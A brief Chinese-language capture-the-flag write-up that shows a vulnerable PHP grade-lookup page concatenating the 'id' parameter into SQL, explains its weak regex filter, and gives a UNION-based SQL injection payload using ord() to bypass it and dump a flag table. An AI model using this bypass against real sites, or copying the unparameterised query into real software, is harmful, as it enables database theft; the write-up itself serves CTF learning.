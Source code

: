 ### ord() 绕过

话不多说，直接上题（KCTF）

![](https://pic1.imgdb.cn/item/6810f15258cb8da5c8d4a5ab.png)

打开链接是一个查询网站

![](https://pic1.imgdb.cn/item/6810f32b58cb8da5c8d4a646.png)

扫目录拿到源码

```php
<?php
  require("conf/config.php");
  if (isset($_REQUEST['id'])) { 
        $id = $_REQUEST['id'];
      if (preg_match("/\d.+?\D.+/is",$id)){
          die("Attack detected");
        }
        $query = "SELECT text from UserInfo WHERE id = " . $id. ";"; 
        $results = $conn->query($query);
        echo "学号：" . $id . "，成绩为： ".$results->fetch_assoc()['text'];
   }
?>
```

解析正则表达式

1. 以一个数字开头(`\d`)
2. 后面跟着一些字符(`.+?`)，尽可能少地匹配
3. 然后必须有一个非数字字符(`\D`)
4. 最后再跟着一些字符(`.+`)

简而言之也就是数字后面不能跟其他字符

构造 payload

```sql
id=ord('a') union select group_concat(flag) from flag
```

![](https://pic1.imgdb.cn/item/6810f34a58cb8da5c8d4a662.png)